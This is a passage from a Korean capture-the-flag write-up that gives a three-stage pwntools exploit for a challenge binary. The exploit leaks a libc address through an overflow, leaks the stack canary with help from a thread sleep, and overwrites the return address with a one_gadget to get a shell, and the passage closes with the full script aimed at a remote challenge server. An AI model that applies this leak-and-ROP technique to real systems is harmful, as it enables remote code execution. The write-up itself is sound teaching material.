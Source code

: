 - 63 byte로 오버플로우 → libc address leak
- `libc_base = leak + 0x940 + 0x3000` #로컬과 원격에 0x3000 만큼의 차이가 있었다.

### [2] Stage 2 : `Canary leak`

```python
# [2] canary leak
payload = b"CHUNK 100 1 " + b'b'*0x48 # overflow offset of canary # not to exit program , set timeout 100
p.sendline(payload)
p.recvuntil(b'b\n')
canary = u64(b'\x00' + p.recv(7))
print(f"canary : {hex(canary)}")
```

- 72 byte로 오버플로우 → Canary 첫 바이트 오염
- `sleep(100)` → 100초 대기로 다른 쓰레드 공격 시간 확보
- `puts()`로 손상된 canary 출력 → 원본 canary leak

### [3] Stage 3 : `ROP Chain` & `One Gadget`

```python
# [3] ROP 
one_gadget = libc_base + 0x583ec
payload = b'CHUNK 0 1 ' + b'c'*0x48 + p64(canary) + b'd'*0x8 + p64(one_gadget)
p.send(payload)
```

- 정확한 canary 값으로 protection bypass
- one_gadget 으로 셸 획득

```python
from pwn import *

p = remote('34.45.81.67', 16006)
# p = process('./wrapper.sh')
elf = ELF('./chall')
# context.log_level ='debug'
libc = ELF('./libc.so.6')

# [1] libc leak
p.sendline(b'CHUNKS 3')
payload = b"CHUNK 0 1 " + b'a'*0x3f # overflow offset of libc 
p.sendline(payload)
p.recvuntil(b'aaaaa\n')
leak = u64(p.recv(6)+b'\x00\x00')
libc_base = leak + 0x940 + 0x3000
# libc_base = leak + 0x940 # local용
print(f"libcbase: {hex(libc_base)}")

# [2] canary leak
payload = b"CHUNK 100 1 " + b'b'*0x48 # overflow offset of canary # not to exit program , set timeout 100
p.sendline(payload)
p.recvuntil(b'b\n')
canary = u64(b'\x00' + p.recv(7))
print(f"canary : {hex(canary)}")

# [3] ROP 
one_gadget = libc_base + 0x583ec
payload = b'CHUNK 0 1 ' + b'c'*0x48 + p64(canary) + b'd'*0x8 + p64(one_gadget)
p.send(payload)

p.interactive()
```

